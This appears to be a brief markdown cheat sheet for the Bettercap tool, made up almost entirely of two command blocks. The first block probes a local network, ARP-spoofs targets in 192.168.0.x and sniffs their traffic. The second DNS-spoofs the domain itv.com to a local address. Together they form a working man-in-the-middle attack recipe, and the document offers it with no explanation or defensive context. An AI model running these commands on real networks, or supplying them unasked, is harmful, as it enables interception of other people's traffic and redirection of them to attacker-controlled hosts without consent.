 # Bettercap

```
net.probe on
net.show
set arp.spoof.targets 192.168.0.x
arp.spoof on
net.sniff on
```

```
net.sniff off
set dns.spoof.domains itv.com
set dns.spoof.address 192.168.0.3
dns.spoof on
```

